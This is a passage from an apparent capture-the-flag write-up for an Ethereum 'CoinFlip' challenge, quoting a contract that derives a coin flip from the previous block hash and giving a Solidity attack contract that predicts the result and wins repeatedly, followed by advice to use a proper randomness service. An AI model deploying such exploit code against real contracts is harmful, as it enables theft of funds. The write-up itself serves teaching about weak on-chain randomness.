 ```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

1. This is not truly random.

### Attack!

1. Write an attack script that calculates the answer, then submit

   ```solidity
   contract Attack {
       using SafeMath for uint256;
       uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
       CoinFlip constant originalContract = CoinFlip(address(0x13C6CB070a82EB153BA55d58A132cc247760BB9E));

       function hackFlip() public {
           uint256 coinFlip = uint256(blockhash(block.number - 1)).div(FACTOR);
           bool side = coinFlip == 1 ? true : false;
           originalContract.flip(side);
       }
   }
   ```

2. call `hackFlip()` function 10 times (or use hardhat to automate the calling).

### Note

Never use block, msg.sender related stuff to generate random number, they are not truly random.

Use chainlinks service to get a random number, it's safer!

## 4. Telephone
